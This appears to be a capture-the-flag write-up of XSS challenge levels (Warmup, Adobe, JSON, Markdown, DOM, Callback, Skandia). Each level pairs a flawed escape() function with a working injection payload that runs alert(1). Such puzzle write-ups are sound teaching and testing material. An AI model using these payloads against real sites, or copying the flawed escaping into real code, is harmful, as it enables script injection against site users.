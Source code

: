 # Warmup


```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

```
undefined"); alert(1); console.log("xss
```


# Adobe

```
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```
The DOM stops parsing after end the script tag.
```
\"); alert(1); </script>
```

# JSON

```
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

JSON doesn't escape angle brackets:


```
</script><script>alert(1)</script>
```

# Markdown

```
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```
Replaces < with &lt; and " with &quot;.
```
[[a|http://onerror=alert(1)//]]
```
becomes
```
<img alt="<a href="http://onerror=alert(1)//" src="a.gif">">http://onerror=alert(1)//]]</a>
```
after second regex

# DOM 

```
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```
The input is split in half with the # in between the two halves.
document['createComment'] makes a comment which the user can escape.

```
Comment#--><script>alert(1)</script>
```

# Callback

```
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/); 

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```
' aren't filtered so we can use

```
'#';alert(1)//
```

to get 

```
<script>'({"userdata":"';alert(1)//"})</script>
```

# Skandia

Source: 
```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```
To get around letters being uppercase with unicode hex:
```
</script><svg><script>&#x61&#x6C&#x65&#x72&#x74(1)//
```
becomes 
```
<script>console.log("</SCRIPT><SVG><SCRIPT>&#X61&#X6C&#X65&#X72&#X74(1)//")</script>
```

  
